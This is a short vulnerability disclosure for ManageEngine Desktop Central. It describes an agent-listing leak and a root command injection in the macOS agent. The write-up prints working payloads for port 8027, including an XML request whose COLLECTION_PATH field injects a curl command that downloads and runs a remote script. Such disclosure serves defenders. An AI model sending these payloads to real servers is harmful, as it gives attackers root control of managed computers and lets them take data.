 # MEsendpayloadto8027

I discovered a couple of bugs in Zoho's ManageEngine Desktop Central. The first bug allowed an attacker to list all of the currently connected clients from the server and the second bug allowed a command injection to be run on the connected client computers.
This command injection only affects the macOS Desktop Central agent.
An attacker can send a specially crafted packet to the Manage Engine Desktop Central server on port 8027 to get a list of currently connected agents. The payload for this is:

`/L=1347`

The server will reply with a 'livelist' of currently connected agents:

`liveList={308:1615453515:0:0,305:1615409840:0:0,}`

Using this 'livelist' a payload can be crafted to send back to the server on port 8027 targeting the currently connected agents. In the below case targeting agent 305.

`/p=1613470134700;encStatus=true;clientList=305;<?xml version="1.0" encoding="utf-8"?><AgentRequest>
 <AgentRequestParams agent_request_param_id="1" param_name="COLLECTION_PATH" param_value="x' | curl https://leat.uk/mal.sh > /tmp/mal.sh ; sh /tmp/mal.sh ' "/>
 <AgentRequestCommand agent_request_id="chris@leat.me" request_command="8"/>
</AgentRequest>`

The COLLECTION_PATH parameter is passed from dcondemand to dcconfig as a system call but is not properly sanitized. This means that commands can be injected and run as the root user. As commands are run as a root user an attacker can have direct control over the macOS computer, all services and documents could be exfiltrated, persistence could be granted to the computer leading to further losses.
